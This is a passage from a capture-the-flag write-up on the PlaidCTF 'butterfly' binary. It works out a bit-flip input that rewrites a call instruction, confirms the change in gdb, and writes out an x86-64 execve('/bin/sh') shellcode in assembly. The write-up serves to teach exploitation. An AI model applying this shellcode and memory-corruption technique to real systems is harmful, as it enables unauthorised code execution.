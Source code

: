 ```
$ shellnoob --64 --intel -i --to-asm
opcode_to_asm selected (type "quit" or ^C to end)
>> e824feffff
e824feffff ~> Disassembly of section .text:

0000000000000000 <.text>:
   0:	e8 24 fe ff ff       	call   0xfffffffffffffe29

>> e864feffff
e864feffff ~> Disassembly of section .text:

0000000000000000 <.text>:
   0:	e8 64 fe ff ff       	call   0xfffffffffffffe69
```
The address that we target is one byte after the start of the `call` instruction:
`0x400837 + 1 = 0x400838`

It has to be multiplied by 8:
`0x400838 * 8 = 0x20041c0`

Now we need to control which bit is flipped in the targeted byte. With the python interpreter:

```
>>> bin(0x24^0x64)
'0b1000000'
```

This is the sixth bit (we start at 0). If we send the number `0x20041c6` to the binary we should see the call change:

```
$ gdb -q butterfly
Reading symbols from butterfly...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/abe/ctf/plaidctf/butterfly/butterfly 
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
0x20041c6
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
^Z
Program received signal SIGTSTP, Stopped (user).
[snip]
gdb-peda$ x/i 0x400837
   0x400837 <main+175>:	call   0x4006a0 <_start+16>
```

## Insert shellcode here

Now that we can modify any other instruction, we can create a shellcode to execute a shell. It has to be done on instructions that are after the `call` that we modified to avoid executing a corrupted instruction in the process.

The shellcode will look like this:

```
xor rsi, rsi      ; zero out the argv pointer
mov rax, 59       ; set the syscall number
xor rdx, rdx      ; zero out the envp pointer
mov rdi, 0x400914 ; address of /bin/sh\
syscall
/bin/sh\0
```


[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob